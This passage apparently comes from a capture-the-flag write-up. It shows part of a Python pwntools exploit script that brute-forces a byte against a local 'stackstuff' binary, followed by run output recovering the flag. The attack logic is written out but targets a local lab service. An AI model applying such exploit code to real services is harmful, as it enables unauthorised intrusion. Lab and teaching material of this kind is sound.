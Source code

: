 ```
    # Send the payload
    target.sendline(payload)

    target.recvuntil(b"Length of password: ")
    try:
        # Executes if we got the flag
        print(b"flag: " + target.recvline())
        flag = 1
    except:
        # Didn't get the flag, try next byte
        # Also we know that the lower 4 bits of this byte is 0x0
        print("tried: " + hex(i))
        i += 0x10
```

When we run it:

```
$   python3 exploit.py 
[+] Starting local process './stackstuff': pid 3947
[+] Opening connection to 127.0.0.1 on port 1514: Done
tried: 0x0
[+] Opening connection to 127.0.0.1 on port 1514: Done
b'flag: flag{g0ttem_b0yz}\n'
[*] Closed connection to 127.0.0.1 port 1514
[*] Closed connection to 127.0.0.1 port 1514
[*] Stopped process './stackstuff' (pid 3947)
```

Just like that, we got the flag!
